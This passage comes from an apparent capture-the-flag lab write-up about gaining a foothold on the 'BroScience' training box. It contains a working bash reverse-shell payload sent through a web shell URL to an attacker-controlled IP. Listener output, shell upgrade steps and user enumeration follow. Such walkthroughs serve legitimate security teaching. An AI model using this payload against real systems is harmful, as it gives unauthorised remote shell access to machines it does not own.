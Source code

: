 #### Shell

I’ll type out a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw) into Firefox, URL encoding
the `&` to `%26`:

    
    
    https://broscience.htb/cmd.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261'
    

On hitting enter, there’s a shell at my listening `nc`:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.195 44096
    bash: cannot set terminal process group (1235): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@broscience:/var/www/html$
    

I’ll [upgrade the shell](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

    
    
    www-data@broscience:/var/www/html$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    www-data@broscience:/var/www/html$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo ;fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@broscience:/var/www/html$ 
    

## Shell as bill

### Enumeration

#### Home Directory

There’s one user with a home directory on the box, bill, and it has
`user.txt`, but I can’t read it yet:

    
    
    www-data@broscience:/var/www/html$ ls /home/
    bill
    www-data@broscience:/var/www/html$ ls /home/bill/
    Certs    Documents  Music     Public     Videos
    Desktop  Downloads  Pictures  Templates  user.txt
    www-data@broscience:/var/www/html$ cat /home/bill/user.txt 
    cat: /home/bill/user.txt: Permission denied
    